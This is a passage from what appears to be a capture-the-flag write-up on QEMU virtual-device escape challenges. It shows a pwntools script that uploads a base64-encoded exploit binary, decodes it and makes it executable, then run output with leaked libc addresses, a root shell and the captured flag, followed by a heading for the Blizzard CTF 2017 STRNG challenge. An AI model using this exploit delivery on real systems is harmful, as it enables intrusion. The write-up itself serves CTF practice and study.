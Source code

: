 ```python
    r.recvuntil('#')
    r.sendline('echo %s >> /tmp/b64_exp'%b64_exp)
log.success('upload success')

r.recvuntil('#')
r.sendline('base64 -d /tmp/b64_exp > /tmp/exp')
r.recvuntil('#')
r.sendline('cd tmp')
r.recvuntil('#')
r.sendline('chmod 777 exp')

r.interactive()
```

```
[+] Opening connection to 0.0.0.0 on port 5555: Done
[*] uploading...
[+] upload success
[*] Switching to interactive mode
 chmod 777 exp
/tmp # $ ./exp
./exp
[+] rand_r ==> 0x7f49574feeb0
[+] libc_base ==> 0x7f49574b4000
[+] system ==> 0x7f4957509410.
sh: turning off NDELAY mode
$ ls
bin
dev
flag
launch.sh
lib
lib32
lib64
libx32
pc-bios
qemu-system-x86_64
qemu-system-x86_64.i64
rootfs.img
usr
vmlinuz
$ cat flag
d3ctf{h@v3_fun!!!}
$
```



### Blizzard CTF 2017-Sombra True Random Number Generator (STRNG)

#### STRNGState
